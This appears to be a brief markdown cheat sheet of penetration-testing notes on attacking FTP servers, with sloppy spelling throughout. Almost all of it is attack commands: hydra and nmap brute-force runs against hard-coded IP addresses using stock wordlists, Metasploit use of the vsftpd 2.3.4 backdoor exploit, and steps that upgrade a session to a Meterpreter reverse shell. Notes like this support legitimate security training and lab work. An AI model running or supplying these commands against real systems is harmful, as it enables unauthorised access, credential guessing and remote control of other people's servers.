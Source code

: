 # Exploiting FTP

__Brup force attack on ftp__
- __`hydra -L/usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.198.30.3 -t 4 ftp`__

__Burp force attack using nmap__
  > save the target user in usr file
  - __`nmap -Pn -A -p 21 -T4 --script=ftp-brute.nse --script-args userdb=/root/usr 10.0.1.22  -o namp`__


__metasploit Framework__
information garthing
```
service postgresql start
msfconsole
workspace -a ftp
db_nmap -sV -O -sS -p- <target ip>
analy
vulns
services
```
exploting 
```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target ip>
exploit
```
using post meterpreter reverse tcp to get the shell
to use this you need to have the access to the target system
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set LHOST <yourip>
set SESSION <uid number that you have access to the target system> ---> use sessions to get the uid
exploit
```
 
